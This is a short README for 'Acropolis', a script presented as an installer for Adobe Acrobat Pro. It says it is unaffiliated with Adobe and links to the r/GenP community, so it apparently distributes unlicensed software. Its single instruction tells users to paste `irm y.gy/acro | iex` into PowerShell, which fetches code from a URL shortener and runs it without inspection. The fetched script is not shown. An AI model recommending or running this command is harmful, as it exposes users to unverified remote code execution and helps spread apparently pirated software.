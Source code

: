 <p align="center"><img src="https://cdn.icon-icons.com/icons2/2699/PNG/512/adobe_acrobat_logo_icon_169638.png" alt="Acrobat Logo" height="128"></p>

<h1 align="center">Acropolis</h1>

<p align="center">The script to install Adobe Acrobat Pro x64</p>
<hr>

## Download / How to use it?

### PowerShell

-   On Windows 8.1/10/11, right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
-   Copy-paste the below code and press enter\
    `irm y.gy/acro | iex`
-   You will see a pop up, follow onscreen instructions.
-   Make sure to click **"Finish"** at the end of the installation.


```
Latest Version: 24.1.9
Release date: 12-Feb-2024
```

[![1.1]][1]
[![1.2]][2]

[1.1]: https://lookimg.com/images/2023/03/21/QTvjcD.png (Discord)
[1.2]: https://lookimg.com/images/2023/05/17/Q0iZ2U.png (Reddit)

[1]: https://discord.com/invite/X9ZuegSM4N
[2]: https://www.reddit.com/r/GenP

---

<p align="center">Not affiliated with Adobe. For educational purposes only. Use at your own risk.</p>
